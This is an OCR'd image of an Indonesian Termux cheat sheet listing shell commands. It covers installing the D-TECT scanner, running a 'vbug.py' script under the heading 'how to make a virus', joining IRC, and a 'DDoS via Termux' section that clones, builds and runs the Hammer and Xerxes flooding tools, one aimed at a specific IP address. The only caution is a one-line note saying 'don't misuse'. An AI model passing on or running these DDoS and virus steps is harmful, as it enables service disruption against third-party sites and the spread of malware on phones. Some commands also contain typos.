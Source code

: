 5. || CARA INSTALL D-TECT TOOLS DI ANDROID TERMUX ||

$ apt install git
$ apt install python2
$ git clone https://github.com/shawarkhanethicalhacker/D-TECT
$ ls
$ cd D-TECH
$ chmod +x d-tect.py
$ python2 d-tect.py

6. || CARA UN-INSTALL TOOLS TERMUX ||

$ rm -rf toolsnya

7. || CARA BIKIN VIRUS ||

$ cd /sdcard
$ cd vbug
$ ls
$ chmod vbug.py
$ chmod -v vbug.py
$ python2 vbug.py

8. || CARA CHATAN DI TERMUX ALA HENGKEL PRO / IRSSI ||

$ /connet irc.freenode.net
$ /nick w3wandroid
$ /join #modol
_________________________
DDOS VIA TERMUX
_________________________
9. || HAMMER ||

$ pkg update
$ pkg upgrade
$ pkg install python
$ pkg install git
$ git clone https://github.com/cyweb/hammer
$ cd hammer
$ python hammer.py
$ python hammer.py -s [IP target] -p [port] -t 135 (tekan enter)   104.27.146.125
NOTE : JANGAN SALAH GUNAKAN !!

10. || XERXES ||

$ apt install git
$ apt install clang
$ git clone https://github.com/zanyarjamal/xerxes
$ ls
$ cd xerxes
$ ls
$ clang xerxes.c -o xerxes
$ ls
$ ./xerxes (nama website) 80
NOTE : JANGAN SALAH GUNAKAN !!
